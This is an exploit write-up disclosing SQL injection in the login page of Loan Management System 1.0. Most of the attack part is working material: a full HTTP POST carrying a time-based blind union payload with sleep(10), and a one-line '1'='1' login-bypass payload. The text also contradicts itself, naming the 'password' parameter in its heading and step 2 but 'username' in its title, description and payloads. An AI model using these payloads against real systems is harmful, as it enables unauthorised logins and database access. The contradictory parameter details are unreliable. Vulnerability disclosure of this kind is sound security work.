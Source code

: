 # Loan Management System - login.php 'password' SQL inject

#### Exploit Title: Loan Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Software Link:https://www.sourcecodester.com/php/15529/loan-management-system-oop-php-mysqlijquery-free-source-code.html

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Loan Management System does not filter the content correctly at the "login.php/username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.31.35:8091
Content-Length: 68
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8091/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

username=admin'union select 1,sleep(10),3,4,5#&password=admin&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![](D:\cves\Loan-Management-System\images\sourcecodesql.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

![](D:\cves\Loan-Management-System\images\sleep10.png)

4、We can also use the universal account and password to log in to the system

payload:`username=123'or '1'='1' --+&password=admin&login=`

![](D:\cves\Loan-Management-System\images\universalaccount.png)

SQL injection also exists in the "password" field, so I won't describe it in detail here.